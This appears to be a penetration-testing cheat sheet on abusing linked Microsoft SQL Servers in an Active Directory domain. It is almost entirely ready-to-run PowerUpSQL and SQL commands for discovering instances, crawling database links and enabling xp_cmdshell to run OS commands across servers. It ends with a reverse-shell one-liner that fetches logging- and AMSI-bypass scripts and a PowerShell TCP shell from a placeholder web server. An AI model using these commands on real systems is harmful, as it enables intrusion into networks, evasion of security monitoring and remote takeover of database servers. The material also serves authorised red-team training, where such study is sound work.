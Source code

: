 ```yaml
---
tags:
  - privesc
cssclasses:
  - PowerUpSQL
  - MimiKatz
---
```

SQL Servers

```powershell title:"Import PowerUpSQL"
Import-Module C:\AD\Tools\PowerUpSQL-master\PowerUpSQL.ps1
. C:\AD\Tools\PowerUpSQL-master\PowerUpSQL.ps1
```

```powershell title:"Discovery (SPN Scanning)"
Get-SQLInstanceDomain
```

```powershell title:"Check Accessibility"
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

```powershell title:"Gather Information"
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

- A database link allows SQL Server to access external data sources like other SQL servers and OLE DB data sources.
- In case of database links between SQL servers, that is, linked SQL servers, it is possible to execute stored procedures.
- Database links work even across forest trusts.

```powershell title:"Look for links to remote servers"
Get-SQLServerLink -Instance sql-machine -Verbose
```

```sql title:"Look for links to remote servers"
select * from master..sysservers
```

- Openquery() function can be used to run queries on a linked database

```sql title:"Enumerating Database Link manually"
select * from openquery("sql-machine", 'select * from master..sysservers')
```

```powershell title:"Enumerating Database links"
Get-SQLServerLinkCrawl -Instance sql-machine -Verbose
```

```sql title:"Enumerate nested links"
select * from openquery("sql-machine", 'select * from openquery("sql-machine-next", "select * from master..sysservers")')
```

#### Executing Commands

- On the target server, either xp_cmdshell should be already enabled; or
- If rpcout is enabled (disabled by default), xp_cmdshell can be enabled using:

```sql title:"Execute commands"
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "sql-machine"
```

Use the -QueryTarget parameter to run Query on a specific instance (without -QuertyTarget the command tries to use xp_cmdshell on every link of the chain)

```powershell title:"nothing"
Get-SQLServerLinkCrawl -Instance sql-machine-starting -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget sql-machine
```

```sql title:"From the initial SQL server, OS commands can be executed using nested link queries:"
select * from openquery("sql-machine",'select * from openquery("sql-machine-next","select * from openquery("outer-sql-machine", ""select @@version as version;exec master..xp_cmdshell "powershell whoami)"")")')
```

```powershell title:"Reverse Shell"
Get-SQLServerLinkCrawl -Instance first-instance -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://your.webserver/sbloggingbypass.txt);iex(iwr -UseBasicParsing http://your.webserver/amsibypass);iex (iwr -UseBasicParsing http://your.webserver/Invoke-PowershellTcp.ps1);Power -Reverse -IPAddress foothold.ip -Port listening.port"''' -QueryTarget last.node
```

